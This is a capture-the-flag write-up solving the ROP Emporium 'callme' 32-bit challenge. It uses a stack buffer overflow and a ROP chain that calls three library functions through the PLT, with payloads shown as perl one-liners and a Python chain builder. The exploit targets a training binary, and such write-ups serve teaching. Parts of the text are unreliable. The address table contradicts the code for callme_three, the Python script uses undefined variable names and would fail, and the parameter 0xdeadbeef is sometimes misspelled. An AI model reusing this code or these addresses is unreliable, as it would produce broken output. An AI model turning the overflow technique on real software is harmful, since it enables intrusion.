




# callme
The challenge is available [here](https://ropemporium.com/challenge/callme.html).

## Black-Box Test
Let's start as usual with an initial check of the program's behavior.

```
./callme32
```


In this challenge as well, the return address is located at the same index.

```
perl -e 'print "A"x44 . "\xef\xbe\xad\xde"' | ./callme32
```

```
sudo dmesg -k | tail -2
```


Before we start exploring in more depth, let's check what the maximum input size we can enter is.

```
ltrace ./callme32
```


By entering simple input (in this case, `ABCD`) while running the program with `ltrace`, we discovered that the maximum input size we can enter is `512` bytes.

## In-depth research
It's time to note that the solution I am writing assumes that anyone reading it has already read the challenge instructions. So if any process seems strange, please refer to the instructions! :)

The goal of the challenge is to run `callme_one(0xdeadbeaf, 0xcafebabe, 0xd00df00d)`, `callme_two(0xdeadbeaf, 0xcafebabe, 0xd00df00d)`, and `callme_three(0xdeadbeaf, 0xcafebabe, 0xd00df00d)` in that order.

These functions will be imported from an external library, so during the symbol linking process, the `PLT` is involved.

Let's keep these points in mind and continue with the research we're already familiar with. First, we'll discover the functions that are written in the binary itself. (The NX protection exists in all of these challenges, and from now on, I won't mention it again)

```
rabin2 -qs callme32 | grep -ve 'imp' -e ' 0 ' -e '_'
```


We have a helper function called `usefulFunction`, just like in the previous challenge. We'll look at it later. For now, let's search for our three target functions. We can look for them in two places. The first is the `PLT`.

```
rabin2 -i callme32
```


The second is the `GOT.PLT` (again, I emphasize that anyone who hasn't read the challenge instructions should do so to understand the linkage process).

```
rabin2 -R callme32
```


To be sure where the functions reside (in both senses mentioned above), we can look at the memory segments by ranges and see the correspondence.

```
readelf -S callme32
```


Now, let's take a look at the helper function `usefulFunction` and try to understand how it will assist us and how this relates to the `PLT`.

```
gdb callme32
```
```
set disassembly-flavor intel
```
```
disass usefulFunction
```


In the constructed ROP chain, a malicious return to the `usefulFunction` itself won't be beneficial, as it does contain calls to the target functions, but not in the correct order and without the right parameters. Therefore, a malicious return to the call-command for them won't help either, since the call will return to the continuation of execution within `usefulFunction`. Thus, when we call the target functions, we'll use the corresponding address in the `PLT` (highlighted with a green line). Let's take a look at the appropriate entries in the `PLT` table.

```
x/3i 0x080484f0
```
```
x/3i 0x08048550
```
```
x/3i 0x080484e0
```


The addresses highlighted with a green line represent the appropriate entries in the `PLT` table. The addresses highlighted with a yellow line indicate the locations where the actual function addresses are located.

If we now look at the `GOT.PLT` (that is, at the addresses highlighted in yellow), we'll find that they have not yet been resolved (which makes sense, as we haven't called them at all yet).

```
x/wx 0x0804a018
```
```
x/wx 0x0804a030
```
```
x/wx 0x0804a014
```


The keen-eyed will notice that up to this point, we have essentially reached a complete explanation for the output of the commands `rabin2 -i callme32` and `rabin2 -R callme32` that were executed earlier during the research. The addresses in green correspond to the `PLT` and the addresses in yellow correspond to the `GOT.PLT`.

Now, let's try to build a ROP chain that will call the first function. Since we won't be using the `call` command, we also need to ensure that there's a return address from the first function on the stack.

Thus, the order will be as follows (from the top of the stack and down): 
* 44 bytes of garbage:
    * `"X"`x44
* the address of `callme_one` function via the `PLT`:
    * `0x080484f0`
* some arbitrary return address (currently just garbage):
    * `"YYYY"`
* followed by the first, second, and third parameters:
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

So let's exit the debugger (with `q` command) and try the next ROP chain.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "YYYY" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```


```
sudo dmesg -k | tail -2
```


So, we've successfully executed the first function and verified that the return address to it is indeed in the place we thought (it fell at the end because `YYYY` isn't actually an address...). But now we're in trouble. How can we call the second function and pass it the parameters? If we replace `YYYY` with the address of the second function, we won't be able to pass it parameters without disrupting the parameters for the first function (a matter of stack positioning). 

To illustrate the problem, let's replace `YYYY` with the address of the function `callme_two` (`0x08048550` address) and run it.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "\x50\x85\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```


Therefore, what we really need to do is find a "gadget" that will clean the stack and perform a `ret`. This way, each function can "return to the gadget" that cleans the stack (which will increment the `SP` register by 12 bytes), allowing us to chain the function calls one after the other, so that the `ret` of the gadget will be what calls the next function.

To find the gadget, I used the tool [ropper](https://github.com/sashs/Ropper). This tool is also mentioned in the ROP_Emporium beginner's guide. In fact, this is the first time I've used it. After a bit of research, I found a suitable gadget.

```
python3 ~/ropper/Ropper.py 
```
```
file callme32
```
```
search /3/ pop %
```


The last gadget is perfect. Let's check if we can now chain calls to the two functions using the gadget. The structure will be as follows:
* 44 bytes of garbage:
    * `"X"`x44

AND

* the address of `callme_one` function via the `PLT`:
    * `0x080484f0`
* the address of the gadget:
    * `0x080487f9`
* the three parameters
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

AND

* the address of `callme_two` function via the `PLT`:
    * `0x08048550`
* the address of the gadget:
    * `0x080487f9`
* the three parameters.
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

So let's exit ropper (with the command `quit`) and try to build and execute the ROP chain using the following command:

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "\xf9\x87\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" . "\x50\x85\x04\x08" . "\xf9\x87\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0"' | ./callme32
```


We succeeded. Now we have everything we need for the complete solution (which is, of course, just to add the third function).

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name         | Type   | Address    | Description                                         |
|--------------|--------|------------|-----------------------------------------------------|
| callme_one   | Func   | 0x080484f0 | The entry address in the PLT table.                 |
| callme_two   | Func   | 0x08048550 | The entry address in the PLT table.                 |
| callme_three | Func   | 0x0804a014 | The entry address in the PLT table.                 |
| pop3words    | Gadget | 0x080487f9 | Clean 3 words (12 bytes) from the top of the stack. |

This table describes the ROP chain itself:

| No | Chain link.                                                 |
|----|-------------------------------------------------------------|
| 1  | 44 garbage bytes                                            |
| 2  | callme_one, pop3words, 0xdeadbeef, 0xcafebabe, 0xd00df00d   |
| 3  | callme_two, pop3words, 0xdeadbeef, 0xcafebabe, 0xd00df00d   |
| 4  | callme_three, pop3words, 0xdeadbeef, 0xcafebabe, 0xd00df00d |

So let's write the Python code that created the ROP chain

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer  = b"X"*44

callme_one   = little_endian(0x080484f0)
callme_two   = little_endian(0x08048550)
callme_three = little_endian(0x080484e0)

pop3words    = little_endian(0x080487f9)

param1       = 0xdeadbeef
param2       = 0xcafebabe
param3       = 0xd00df00d
params       = little_endian(param1) +\
               little_endian(param2) +\
               little_endian(param3)

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += callme_one_PLT_ADDR + pop3words_GADGET + params
ROP_Chain += callme_two_PLT_ADDR + pop3words_GADGET + params
ROP_Chain += callme_three_PLT_ADDR + pop3words_GADGET + params

print(ROP_Chain)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
